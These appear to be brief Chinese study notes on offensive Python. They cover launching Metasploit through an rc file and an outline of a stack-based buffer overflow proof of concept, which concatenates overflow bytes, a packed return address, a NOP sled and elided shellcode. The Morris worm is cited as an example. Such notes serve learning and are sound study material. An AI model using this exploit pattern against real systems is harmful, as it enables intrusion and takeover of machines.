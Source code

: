 ### 整合

最主要的是 main 函数如何与 metasploit 交互，发现是通过 rc 文件

```python
config_file = open("meta.rc", "w")
...
os.system("msfconsole -r meta.rc")
```

## 编写你自己的 0day 概念验证代码

Morris 蠕虫成功的原因在某种程度上其实就是利用了 Finger service 中的一个基于栈的缓冲区溢出

### 基于栈的缓冲区溢出攻击

```python
shellcode = ("\xbf\x5c....")
overflow = "\x41" * 246
ret = struct.pack("<L", 0x7c874413)
padding = "\x90" * 150
crash = overflow + ret + padding + shellcode
```

### 发送漏洞利用代码

使用 `Berkeley Socket API` 发送，其实就是套接字发送，之前在学校课程已经接触过了，不记录了